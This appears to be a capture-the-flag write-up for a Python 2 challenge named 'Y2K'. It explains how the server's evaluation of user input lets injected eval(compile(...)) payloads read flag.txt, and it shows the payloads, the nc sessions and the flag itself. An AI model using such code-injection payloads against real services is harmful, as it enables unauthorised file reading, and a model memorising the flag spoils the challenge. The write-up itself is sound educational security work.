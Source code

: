 # Y2K
408

They told us the world was going to end in the year 2000! But it didn't... when will the world end?

Open the Deployment tab to start this challenge.

# Flag
```shell
flag{we_are_saved_from_py2_k}
```

# Solution

Deployment tab gives up the connection:

nc challenge.ctf.games 31656

Connecting to the server allows input from user. But what kind of input? Tried number strings, really long number strings. Server just echos input back with some flavor text. Not a buffer overflow. What about a sandbox?

Start with something simple:
```python
eval(compile('print "hello"', '<string>', 'exec'))
```

sending:
```shell
kali@kali:~$ nc challenge.ctf.games 31656
What year do YOU think the world will end?
eval(compile('print "hello"', '<string>', 'exec'))
hello
Yeah! I agree with you! I also think the world will end in the year 
None
```


Sweet. Let try some low hanging fruit:
```python
eval(compile('print open("./flag.txt", "r").readlines()', '<string>', 'exec'))
```
Success:
```shell

kali@kali:~$ nc challenge.ctf.games 31656
What year do YOU think the world will end?
eval(compile('print open("/home/challenge/flag.txt", "r").readlines()', '<string>', 'exec'))
['flag{we_are_saved_from_py2_k}']
Yeah! I agree with you! I also think the world will end in the year 
None
```